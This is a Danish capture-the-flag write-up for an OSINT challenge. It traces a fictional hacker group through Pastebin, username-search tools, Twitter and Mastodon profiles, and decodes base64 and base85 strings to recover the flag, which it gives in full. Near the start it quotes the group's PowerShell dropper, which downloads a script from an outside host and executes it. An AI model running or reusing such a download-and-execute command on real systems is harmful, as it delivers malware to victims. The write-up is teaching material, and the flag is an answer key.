 # Writeup

Vi har brug for at finde info om `N1ss3b4nd3n` og dens medlemmer, og her er det naturligt at se, om noget kan fremfindes offentligt på nettet, altså med `OSINT: Open Source INTelligence`.

Opgaven er egentlig tiltænkt at forudsætte, man har løst [Nisseware: Loading](../nisseware-loading/) eller som minimum fundet frem til et af gruppens payloads hosted på pastebin.
Det er dog ikke strengt nødvendigt, da man også finder gruppens pastebin med en søgning på `N1ss3b4nd3n` med fx https://whatsmyname.app/ eller [sherlock](https://github.com/sherlock-project/sherlock), så opgaven kan også løses separat uden netværksanalyse og/eller reverse engineering.

Det nyeste payload linket fra GitHub er https://pastebin.com/raw/GdyerNX8, hvor følgende script er hosted:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Som nævnt i writeup for `Nisseware: Loading`, kan vi fjerne `/raw` fra URLen for at se scriptet direkte på pastebin siden: https://pastebin.com/GdyerNX8.

![N1ss3b4nd3ns pastebin](img/pastebin.png)

Payloadet står som unlisted og er oprettet af brugeren `N1ss3b4nd3n` - vi kan klikke på brugernavnet og se, hvad de har af offentlige pastes: https://pastebin.com/u/N1ss3b4nd3n.

Her ligger kun en enkelt offentlig paste: https://pastebin.com/hQcmjWHL, som dog virker yderst relevant:

```
Medlemsliste:
HEMMELIGT (chefen)
Lun73
G3mys3
HrM0rt3ns3n
Sk1pp3r
P1l
```

Vi har nu en liste af i hvert fald fem potentielle medlemmer af `N1ss3b4nd3n`, og her bør man jo lede efter spor på dem alle.
Dog er `P1l` meget kort og ikke særlig unikt og vil højest sandsynligt kun være falske positiver - samme gælder egentlig `Lun73`, de havde begge været lidt tarvelige at lægge relevant info på i en CTF, men er selvfølgelig værd at undersøge, især hvis man ikke finder noget på de resterende. De mest unikke er umiddelbart `HrM0rt3ns3n` og `G3mys3`, så de er værd at starte med.

Der findes mange tilgængelige OSINT lookup tools, bl.a. command line værktøjet [sherlock](https://github.com/sherlock-project/sherlock), der virker *okay*, men tit har mange falske positiver og mangler. Især kan det være svært med sider, der kræver profil for overhovedet at lave opslag. Servicen [WhatsMyName](https://whatsmyname.app/) kan anbefales i stedet, men intet værktøj er perfekt, og også denne vil til tider have falske positiver og mangler.

Vi kan prøve at indsætte de to mest unikke brugernavne (med en newline efter det sidste!) på denne side og lave en søgning:

![WhatsMyName search result](img/whatsmyname.png)

På de to navne findes kun ét resultat, nemlig på `Twitter`/`X`: https://twitter.com/HrM0rt3ns3n.
Dette virker som et meget relevant resultat, især med så unikt et brugernavn, så vi klikker os videre hertil:

![HrM0rt3ns3ns Twitter](img/twitter-profile.png)

Bingo! Helt klart vejen frem! `Hr. M0rt3ns3n` har syv posts i alt, hvoraf fire bare er reposts af memes o.l. (den første dog lidt relevant, en nyhed med password leak, et lille nudge til senere i `Nisseware: Infrastructure`). Hans nyeste personlige post peger lidt på indblanding i `N1ss3b4nd3n` og deres shady forretninger:

![HrM0rt3ns3ns sidste post](img/twitter-last-post.png)

De foregående er dog noget mere relevante:

![HrM0rt3ns3ns første posts](img/twitter-first-post.png)

Her virker det til, han er rykket til Mastodon som mange andre, og han har postet et base64 encoded link:

```
aHR0cHM6Ly9tYXN0b2Rvbi5zb2NpYWwvQE0wcnQzbnMzbg==
= https://mastodon.social/@M0rt3ns3n
```

Han har altså brugt et lidt andet brugernavn på Mastodon, og derfor fandt vi det ikke med en søgning før. Smider man `M0rt3ns3n` i `WhatsMyName` finder den også Mastodon profilen (samt en række urelaterede falske positiver).

Vi klikker os videre til https://mastodon.social/@M0rt3ns3n:

![M0rt3ns3ns Mastodon](img/mastodon-mortensen.png)

Her ser vi en række mere eller mindre relevante posts:

![M0rt3ns3ns 1. post](img/mastodon-1.png)

![M0rt3ns3ns 2. post](img/mastodon-2.png)

![M0rt3ns3ns 3. post](img/mastodon-3.png)

![M0rt3ns3ns 4. post](img/mastodon-4.png)

Første post peger på, at der måske er en anden relevant bruger, han her bare kalder `julle`.
Mon ikke, det er den bruger, vi ser i 2. post, som da også er den enste, han følger: `n1ss3far`.
Det opslag kobler også helt tydeligt `HrM0rt3ns3n` til `N1ss3b4nd3n` med hans egne ord.
Det 4. post peger også på hans indblanding i angrebene mod legetøjsvirksomheder.

Sidst har vi i 3. post en bid encoded tekst, `:.$gaAh\%;0R$k_BJT`, og han nævner, det er encoded med en mere kompakt metode end default.
Med default refererer han nok til `base64`, hvor en anden mere kompakt og stadig velkendt og til tider anvendt encoding er `base85`.
Decoder vi med `base85` med fx [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base85('!-u',true,'z')&input=Oi4kZ2FBaFwlOzBSJGtfQkpU), får vi første halvdel af flaget: `NC3{f0ll0w_7h3`.

Så langt så godt!

Nu er det vist tid til at undersøge den næste identificerede bruger, `n1ss3f4r`, og vi fortsætter over på hans Mastodon profil: https://mastodon.social/@n1ss3f4r

![N1ss3f4rs Mastodon](img/mastodon-nissefar.png)

Vi kigger ligeså hans posts igennem:

![Nissefars 1. post](img/mastodon-5.png)

![Nissefars 2. post](img/mastodon-6.png)

![Nissefars 3. post](img/mastodon-7.png)

Det peger ret eksplicit på, at han har droppet `mastodon.social` og er hoppet på `infosec.exchange`, hvor han er nem at finde på samme brugernavn: https://infosec.exchange/@n1ss3f4r

![Nissefars infosec.exchange](img/infosec-profil.png)

Her har han en række posts, hvoraf nogle er lidt interessante:

![Nissefars 1. post](img/infosec-1.png)

Filkryptering, videresalg af data, kryptovaluta, de har helt sikkert gang i ransomware!

Næste opslag ligner noget, vi har set før, mon ikke den "bekendte" er `HrM0rt3ns3n`:

![Nissefars 2. post](img/infosec-2.png)

Vi decoder igen med base85 og får 2. halvdel af flaget:

```
?[$0<F>I9J1h'oKFF=  ->  _wh1t3_w4bb1t}
```

Samler vi delene, har vi nu hele flaget: `NC3{f0ll0w_7h3_wh1t3_w4bb1t}`.
Så langt så godt!

Vi ser lige de sidste posts igennem også for at færdiggøre undersøgelsen:

![Nissefars 3. post](img/infosec-3.png)

Det første post hinter igen mod encryption og måske derfor ransomware - det er måske en god info at holde in mente, at han er lidt forvirret over block cipher modes, hvis man endnu ikke har løst [Nisseware: Encryption](../nisseware-encryption/)!

Det næste er igen med til at bestyrke vores antagelse om, at `n1ss3f4r` er en væsentlig del af `N1ss3b4nd3n`, måske endda deres hemmelige leder, det virker nærliggende.

Sidst er der et post, der peger på, at `n1ss3f4r` måske har profiler på flere sider, og sandsynligvis nogle lidt ældre end Mastodon.

Efterforskningen fortsætter i [Nisseware: Infrastructure](../nisseware-infrastructure/)!

**Flag**

`NC3{f0ll0w_7h3_wh1t3_w4bb1t}`
